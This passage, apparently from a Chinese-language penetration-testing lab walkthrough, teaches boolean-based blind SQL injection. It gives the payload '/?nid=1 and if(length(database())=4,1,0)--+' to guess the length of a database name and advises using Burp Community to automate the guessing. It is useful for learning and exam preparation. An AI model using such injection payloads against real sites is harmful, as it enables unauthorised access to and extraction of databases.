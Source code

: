 确定当前数据库的长度，构造语句，这时候建议开始使用`burp`，因为后续要猜测的字符太多，不能说一个个去进行操作，当然，也可以自己编写脚本去请求

这里在`kali`中使用`burp`，其版本是社区版本，有很多功能进行限制，不过还是挺建议使用这个的，因为在`OSCP`考试中，是只能使用社区版本的

并且下面的语句，最好进行URL编码，只需要对空格等进行处理即可，其余字符不要编码

```shell
/?nid=1 and if(length(database())=4,1,0)--+

#拆解，首先length()，是确定长度
#database()，是当前数据库名称
#所以，加在一起就是length(database())，统计数据库的长度

#使用if进行判断，if的格式是 if(条件，条件判断正确执行，条件判断错误执行)
#所以这里总体语句就是，当前数据库的长度为4时，返回结果为1，否则为0

#结合前面的and，就会确定总体是否正确
#当然，这里长度为多少可以自行调节，建议从2开始，一般不会有数据库名称只有一个字符
```

![](./pic-8/10.jpg)

确定当前数据库长度为4

![](./pic-8/11.jpg)
